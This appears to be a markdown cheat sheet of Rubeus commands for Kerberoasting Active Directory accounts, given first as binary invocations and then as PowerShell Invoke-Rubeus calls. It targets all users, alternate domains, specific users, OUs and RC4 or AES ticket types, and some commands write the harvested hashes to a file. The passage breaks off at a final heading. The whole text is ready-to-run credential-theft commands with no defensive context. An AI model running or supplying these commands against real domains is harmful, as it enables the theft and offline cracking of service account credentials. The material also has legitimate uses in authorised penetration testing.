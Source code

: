 ## Windows

### 1) Rubeus (Binary)

##### Kerberoast all users in Domain and output to file

    Rubeus.exe kerberoast /simple /outfile:C:\Temp\Kerbhashes.txt

##### Kerberoast all users in alternative Domain

    Rubeus.exe kerberoast /nowrap /domain:[Domain]

##### Only kerberoast RC4 compatible types

    Rubeus.exe kerberoast /nowrap /rc4opsec

##### Only kerberoast AES compatible types

    Rubeus.exe kerberoast /nowrap /aes

##### Specific users

    Rubeus.exe kerberoast /user:[User] /nowrap

##### All users in OU

    Rubeus.exe kerberoast /ou:OU=Service_Accounts,DC=Security,DC=local

##### List statistics about found Kerberoastable accounts (Quiet)

    Rubeus.exe kerberoast /stats

### 2) Rubeus (Powershell)

##### Kerberoast all users in Domain and output to file

    Invoke-Rubeus -Command "kerberoast /simple /outfile:C:\Temp\Kerbhashes.txt"

##### Kerberoast all users in alternative Domain

    Invoke-Rubeus -Command "kerberoast /nowrap /domain:[Domain]"

##### Only kerberoast RC4 compatible types

    Invoke-Rubeus -Command "kerberoast /nowrap /rc4opsec"

##### Only kerberoast AES compatible types

    Invoke-Rubeus -Command "kerberoast /nowrap /aes"

##### Specific users

    Invoke-Rubeus -Command "kerberoast /user:[User] /nowrap"

##### List statistics about found Kerberoastable accounts (Quiet)
